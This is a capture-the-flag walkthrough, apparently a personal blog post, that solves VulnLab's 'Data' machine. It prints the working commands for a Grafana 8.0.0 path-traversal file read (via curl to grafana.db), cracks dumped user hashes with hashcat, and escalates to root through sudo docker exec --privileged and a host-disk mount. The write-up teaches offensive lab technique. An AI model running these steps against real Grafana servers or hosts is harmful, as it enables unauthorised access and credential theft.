

# Data

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Data** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3000 --min-rate=1000 10.10.100.171
```



Now let’s open the website that is working on port 3000


Notice that its running grafana v8.0.0


Notice that it’s vulnerable to File Read so let’s download the exploit and run it.

```bash
python3 exploit.py -H http://10.10.100.171:3000
```


> Notice that we got the content of the /etc/passwd file
> 

Now let’s save the grafana database.

```bash
curl --path-as-is http://10.10.100.171:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```


now let’s enumerate the database for interesting things.


notice that there was a table named user.

Now let’s dump it.

```bash
select * from user;
```


now let’s go and use grafana2hash to make the hash that we can crack

```bash
go run Grafana2Hash.go 7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8 YObSoLj55S
go run Grafana2Hash.go dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8 LCBhdtJWjl
```


now let’s crack those hashes

```bash
hashcat -m 10900 crackme.txt /usr/share/wordlists/rockyou.txt
```


> Notice that we got the password do the user Boris
> 

now let’s login to the SSH


> notice that we got initial access and we can now get the user.txt
> 

Now let’s try elevating our privilege.

```bash
sudo -l
```


notice that we can execute commands in docker as root.

now let’s enter the container.

```bash
sudo /snap/bin/docker exec --privileged --user 0 -it grafana /bin/bash
```


Now let’s check the disks.

```bash
fdisk -l
```


Now let’s mount this disk in our continer.

```bash
mount /dev/xvda1 .
```


> For some reason my docker is broke and the ls command is not working 😟
> 

But! since I know that I mounted it now lets try to enter the root directory.

```bash
cd root/
```


and now let’s get the flag.


and we did it! we Pwned data from vulnlab


I hope you enjoyed my solution hope we meet in future writeups and goodbye for now

Yours Remo

CRTE | CRTO | CRTP | eWPTX